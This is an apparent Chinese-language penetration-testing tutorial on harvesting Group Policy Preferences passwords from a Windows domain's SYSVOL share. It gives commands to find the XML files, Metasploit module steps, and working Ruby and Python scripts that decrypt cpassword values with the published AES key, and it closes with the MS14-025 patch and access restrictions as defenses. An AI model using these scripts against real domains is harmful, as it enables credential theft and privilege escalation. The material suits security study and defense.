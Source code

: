 ```yaml
---
title: "内网渗透-GPP(组策略)的利用"
date: 2020-08-31 11:56:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-GPP(组策略)的利用
---
```

# 组策略偏好
## 基础
+ SYSVOL
> SYSVOL是指存储域公共文件服务器副本的共享的文件夹，它们在域中所有的域控制器之间复制。Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上
所有的域组策略存储在：
```
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```
认证用户（所有域用户或者信任域里的用户）对SYSVOL拥有读权限
+ 组策略偏好GPP
```
映射驱动（Drives.xml）
创建本地用户
数据源（DataSources.xml）
打印机配置（Printers.xml）
创建/更新服务（Services.xml）
计划任务（ScheduledTasks.xml）
更改本地Administrator密码
```

## 攻击
```
dir /s /a \\Sync-DC.Sync.net\SYSVOL\sync.net\*.xml
```
http://www.91ri.org/14909.html
## 解密工具

+ PowerSploit
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```
powershell  import-modulo  .\Get-GPPpassword.ps1;Get-GppPassword
```
+ ruby
ruby  gpp.rb
```ruby
require 'rubygems'
require 'openssl'
require 'base64'
encrypted_data = " v0hX9w3D40aFkfgtPgcz1yWPcjp+BqICihQlATkp50g "
def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)
   key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion
   return pass
 end
blah = decrypt(encrypted_data)
puts blah
```
+ msf
```
msf > use post/windows/gather/credentials/gpp
msf >post(gpp) > sessions
msf >post(gpp) > set SESSION  1
msf> post(gpp) > show options
msf >post(gpp) > run
```
+ python
```
#!/usr/bin/python
#
# Gpprefdecrypt - Decrypt the password of local users added via Windows 2008 Group Policy Preferences.
#
# This tool decrypts the cpassword attribute value embedded in the Groups.xml file stored in the domain controller's Sysvol share.
#
import sys
from Crypto.Cipher import AES
from base64 import b64decode
if(len(sys.argv) != 2):
  print "Usage: gpprefdecrypt.py <cpassword>"
  sys.exit(0)
# Init the key
# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29#endNote2
key = """
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
""".replace(" ","").replace("\n","").decode('hex')
# Add padding to the base64 string and decode it
cpassword = sys.argv[1]
cpassword += "=" * ((4 - len(sys.argv[1]) % 4) % 4)
password = b64decode(cpassword)
# Decrypt the password
o = AES.new(key, AES.MODE_CBC).decrypt(password)
# Print it
print o[:-ord(o[-1])].decode('utf16')
```
## 防御
+ GPP凭证补丁(KB2962486)
2014年5月13日，微软发布了MS14-025的补丁KB2962486，即那个GPP导致的权限提升漏洞。这个补丁需要安装在所有使用了RSAT的系统上，防止管理将密码数据放进GPP里
+ 可以直接设置xml的读取权限，从而防止恶意的读取